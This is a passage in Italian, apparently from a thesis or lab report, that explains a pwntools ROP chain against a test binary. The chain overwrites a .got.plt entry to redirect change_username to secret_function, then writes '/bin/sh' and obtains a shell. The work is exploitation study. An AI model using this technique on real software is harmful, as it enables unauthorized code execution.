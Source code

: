 \begin{lstlisting}[language=Python, label=gadgets add, caption={\textbf{Gadgets} recuperati necessari per creare la \textbf{ROP chain}.}, style =Python]
pop_rbp = p64(0x4011dd)                         # pop rbp; ret;
add_mmrax_rbp = p64(0x401178)                   # add qword ptr [rax], rbp; ret;         
\end{lstlisting}
La chain finale aveva quindi come scopo quello di incrementare l'indirizzo di \textbf{change username}() contenuto nel puntatore sopraccitato e preparare poi i registri per la chiamata a \textbf{secret\_function}(), come nello scorso test. La differenza però è che in questo caso
non è stata richiamata direttamente tale funzionalità, fu invece chiamata \textbf{change username}(), in quanto ora il puntatore a tale voce della ``\textbf{.got.plt}'' conteneva l'indirizzo effettivo in memoria di \textbf{secret\_function}() e non più quello della precedente funzionalità:
\begin{lstlisting}[language=Python, label=rop2-sf, caption={Creazione e invio della \textbf{ROP chain} per modificare la sezione ``\textbf{.got.plt}''.}, style =Python]
rop = ROP(elf)                            # creazione oggetto rop
rop.raw(pop_r13)                          # pop r13; pop r14; pop r15; ret;
rop.raw(elf.got["change_username"])       # r13 = ptr -> change_username idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_rax_r13)                      # mov rax, r13; ret;
rop.raw(pop_rbp)                          # pop rbp; ret;
rop.raw(secret_off)                       # rbp = off secret_function-change_username
rop.raw(add_mmrax_rbp)                    # add [rax], rbp; add offset to got entry
rop.raw(pop_r12_r13)                      # pop r12; pop r13; pop r14; pop r15; ret;
rop.raw("/bin/sh\x00")                    # r12 = "/bin/sh\x00"
rop.raw(where_to_write)                   # r13 = .data idx
rop.raw(p64(0x00))                        # r14 = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(mov_mmr13_r12)                    # mov [r13], r12; ret;
rop.raw(pop_rsi)                          # pop rsi; pop r15; ret;
rop.raw(p64(0x00))                        # rsi = 0x00
rop.raw(p64(0x00))                        # r15 = 0x00
rop.raw(pop_rdi)                          # pop rdi; ret;
rop.raw(where_to_write)                   # rdi = .data idx -> "/bin/sh\x00"
rop.raw(xor_rdx)                          # rdx = 0x00
rop.call("change_username")               # chiamata a secret_function 

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
p.interactive()        
\end{lstlisting}
Eseguito l'exploit completo, il risultato fu nuovamente l'esecuzione di una \textit{shell}, come fissato da obbiettivo.

